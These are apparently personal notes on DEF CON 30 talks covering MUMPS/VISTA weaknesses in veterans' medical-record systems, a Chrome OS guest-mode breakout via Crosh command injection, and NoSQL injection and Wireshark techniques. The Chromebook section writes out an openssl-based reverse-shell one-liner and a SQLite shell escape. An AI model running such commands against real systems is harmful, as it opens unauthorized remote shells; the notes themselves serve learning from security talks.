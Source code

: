 # DEF CON 30

author:: Nathan Acks  
date:: 2022-08-13

DEF CON talks in the morning, and another workshop this afternoon.

REFERENCES:

* [DEF CON 30](https://defcon.org/html/defcon-30/dc-30-index.html)

## How to Get MUMPS Thirty Years Later

* SIDE NOTE: Zach uses a text-based slide generation tool called Moebius.
* MUMPS is a versatile language (and development environment) originally developed for the VA. I predates \*NIX and is incredibly versatile — it’s also used by other hospitals, police departments, banks, and even the ESA.
* MUMPS has some interesting features: All keywords can be shortened to a single character. White space matters (except for newlines). Math is evaluated left-to-right (there’s no sense of order of operations `O_o`). Dates are comma-delineated strings that start in 1838 (and support up to the year 9999).
* MUMPS can be treated as both a scripted and compiled language.
* More than 50% of all electronic medical records pass through some sort of MUMPS application.
* VISTA is a platform for handling electronic medical records that is written in MUMPS specifically for use by the Veterans’ Administration.
* In hospitals, clients talk to VISTA using a network RPC. The most common client is CPRS (it’s written in a slightly more modern language, DELPHI `O_o`).
* CPRS/VISTA are *extremely* chatty on the network.
* VISTA uses a roll-your-own encryption scheme from the 1990s. Encryption can be trivially broken. Packets can be replayed. And there are hard-coded creds (though Zach doesn’t think that these are exploitable). So, be sure to layer TLS onto any MUMPS implementations!
* Zach’s had trouble getting the VA to talk to them, so disclosure’s still ongoing here.
* VISTA is *really* well-loved by the doctors who use it.

### References

* [How to Get MUMPS Thirty Years later (or, Hacking the Government via FOIA’d Code)](assets/how-to-get-mumps-thirty-years-later-or-hacking-the-government-via-foiad-code-zachary-minneker.pptx)
* [Moebius ANSI Art Editor](https://blocktronics.github.io/moebius/)

## Chromebook Breakout

* This is the Lost Rabbit Labs people. I saw them at a DC 303 meet-up.
* This vulnerability was actually patched two years ago by Google…
* This is a breakout from the Chrome OS guest user via the the Crosh shell using command injection in the `set_*` commands.
* The Pico Ducky is a Rubber Ducky work-alike that runs on a Raspberry Pi Pico. It’s much faster than Hak5’s tool.
* Interesting redirect trick — use `1>&2` to redirect STDOUT to STDERR (the reverse of what is normally done) to bypass some output filtering.
* You can pipe `sh` through `openssl` for a reverse shell! Something like: `mkfifo /tmp/irl; /bin/sh -i < /tmp/irl 2>&1 | openssl s_client -quiet -connect 127.0.0.1:1337 > tmp/irl; rm /tmp/irl`
* In older versions of Chrome OS, the Crosh shell could actually be launched in Dev Mode (without switching the entire box to Dev Mode) using `crosh --dev` (via `set_apn` command injection).
* SQLite shell escape: `.shell bash`
* Oof… There were (are?) hard-coded SSH public keys on Chrome OS; the corresponding private key was (is?) available in the Chromium code repo.
* Chrome OS has a restricted `finger` command called `pinky` that’s used internally.
* If you can get to `dbus` on a Chromebook, you can access *some* (but not all!) Dev Mode tools (like `ping`).

(I wasn’t able to catch the end of this presentation, however, as I needed to head out to my last workshop…)

### References

* [Chromebook Breakout: Escaping Jail, With Your Friends, Using a Pico Ducky](assets/chromebook-breakout-escaping-jail-with-your-friends-using-a-pico-ducky-jimi-allee.pdf)
* [Pico Ducky](https://github.com/dbisu/pico-ducky)

## Securing Web Apps

* TIL: There is such a thing as NoSQLi, and it’s *way* easier than SQLi — just drop objects containing search operators into the NoSQL queries instead of actual data!
* You can search within packets in Wireshark using the filter `frame contains "$TEXT_TO_SEARCH"`.
* If you can find an encryption key in a packet dump, you can try applying them to encrypted packets in Wireshark using “Preferences > RSA Keys”.
* Wireshark can easily extract files from HTTP conversations. To extract them from raw TCP streams, (1) locate the beginning of the stream, (2) right-click on the packet and select “Follow > TCP Stream, (3) change “Show data as” to “Raw”, and (4) save it off using “Save As”.

### References

* [Securing Web Apps](https://forum.defcon.org/node/241772)
* [How to pull off a successful NoSQL Injection attack](https://infosecwriteups.com/nosql-injection-8732c2140576)

